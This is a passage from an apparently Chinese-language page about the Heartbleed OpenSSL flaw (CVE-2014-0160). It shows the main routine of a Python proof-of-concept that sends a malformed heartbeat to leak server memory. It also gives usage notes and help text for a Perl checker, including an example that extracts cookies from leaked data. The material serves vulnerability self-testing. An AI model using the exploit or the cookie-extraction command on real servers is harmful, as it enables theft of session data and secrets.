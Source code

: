 def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()

{% endhighlight %}

* 自我測試工具 [https://github.com/noxxi/p5-scripts/blob/master/check-ssl-heartbleed.pl](https://github.com/noxxi/p5-scripts/blob/master/check-ssl-heartbleed.pl)

使用方法直接執行「perl check-ssl-heartbleed.pl mail.XXXXXX.gov.tw:443」，可在網域名稱後指定特定 SSL 連接埠。

使用說明：

{% highlight console %}

Check if server is vulnerable against heartbleet SSL attack (CVE-2014-0160)
Usage: check-ssl-heartbleed.pl [ --starttls proto[:arg] ] [ --timeout T ] host:port
  --starttls proto[:arg] - start plain and upgrade to SSL with
			   starttls protocol (imap,smtp,http,pop)
  -T|--timeout T         - use timeout (default 5)
  -H|--heartbeats N      - number of heartbeats (default 1)
  -s|--show-data [L]     - show heartbeat response if vulnerable, optional
                           parameter L specifies number of bytes per line (16)
  -R|--show-regex-data R - show data matching perl regex R. Option can be
                           used multiple times
  -q|--quiet             - don't show anything, exit 1 if vulnerable
  -h|--help              - this screen

Examples:
  # check direct www, imaps .. server
  check-ssl-heartbleed.pl www.google.com:443
  check-ssl-heartbleed.pl www.google.com:https
  check-ssl-heartbleed.pl mail.google.com:imaps

  # try to get Cookies
  check-ssl-heartbleed.pl -R 'Cookie:.*' www.broken-site.com:443